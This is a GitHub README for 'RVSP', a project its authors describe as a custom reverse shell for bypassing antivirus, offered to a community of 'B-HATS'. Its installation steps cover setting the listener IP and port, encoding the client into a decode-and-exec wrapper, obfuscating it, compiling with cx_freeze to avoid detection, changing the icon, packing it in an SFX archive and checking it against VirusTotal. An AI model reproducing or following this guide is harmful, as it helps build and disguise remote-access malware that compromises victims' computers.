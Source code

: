 ![alt text](https://github.com/skred91/RVSP-main/blob/main/Banniere.png))


---------------------------------------------------------------------------------------------------------------------------|<br/>
-Hi everyone 👋, welcome to the RVSP github,<br/>

This project consist of bypassing any anti-virus by using a custom reverse-shell<br/>
coded by myself with the help of my friend patoche890. We decided to share this project to found a community of B-HATS<br/>
To Help us in our project. If you wanna help us, there's a discord link upside and in the top-right panel.<br/>
Go see it 👍<br/>
Enjoy our tool 👋<br/>

---------------------------------------------------------------------------------------------------------------------------|<br/>

<b>Installation :<b/>

1) You need to install Python 3.12<br>

2) In cmd run :
```ruby
pip install -r requirements.txt
```
3) Go into ./General-Users/Python-Files/ then edit Client.py :
```ruby
SERVER_HOST = '127.0.0.1' --> Put the Server-Listener IP
SERVER_PORT = 4444 --> Put the Server-Listener PORT
```
4) Run encode.py then paste the full path of your Client.py file<br>

5) Copy the encoded client.py then past it in decode-exec.py here :
```ruby
encoded = (""" HERE """)
```

6) Go to pyobfuscate.com And Obfusc the File like this :<br>
   -Code minifier (1)<br>
   -Var Obfusc (2)<br>

7) In the Tools folder you'll found the builder bat file, follow the instructions and the exe will be in the build folder.<br>

8) To change the exe icon or whatever, i've put you the RessourceHacker latest installer ( 18/06/2024 )

/!\ WARNING /!\ I use cx_freeze to compile the exe bcs pyinstaller is flagged by microsoft so you need all the Folder with the exe into it to run it<br>
DISCLAIMER : I recommend you to use an sfx archive, try different method and test it on VirusTotal, for me it haven't work with winrar.<br>
For any question go in the discord server.<br>

GOOD LUCK !
